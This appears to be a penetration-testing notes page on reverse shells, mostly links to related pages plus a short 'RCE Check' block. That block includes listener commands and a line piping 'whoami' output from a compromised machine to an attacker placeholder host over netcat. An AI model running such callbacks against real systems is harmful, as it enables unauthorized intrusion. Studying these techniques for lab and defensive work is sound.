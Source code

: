 # 🎮 Reverse Shells

## Reverse Shells

{% content-ref url="web-shells.md" %}
[web-shells.md](web-shells.md)
{% endcontent-ref %}

{% content-ref url="../file-transfer/linux-file-transfer.md" %}
[linux-file-transfer.md](../file-transfer/linux-file-transfer.md)
{% endcontent-ref %}

{% content-ref url="windows-rev-shells.md" %}
[windows-rev-shells.md](windows-rev-shells.md)
{% endcontent-ref %}

## RCE Check

```bash
# tcpdump
tcpdump -i tun0 icmp # We can also test by disabling DNS resolution with -n
tcpdump ip proto \\icmp -i tun0
tshark -i tun0 -Y "icmp" 2>/dev/null
# ping
ping -c 1 <LHOST>
# nc
nc -nvlp 443 # Attacker machine
whoami | nc <LHOST> 443 # Compromised machine
# sleep
sleep 5 # Linux
timeout 5 # Windows
```

## Tools

{% content-ref url="pwncat.md" %}
[pwncat.md](pwncat.md)
{% endcontent-ref %}
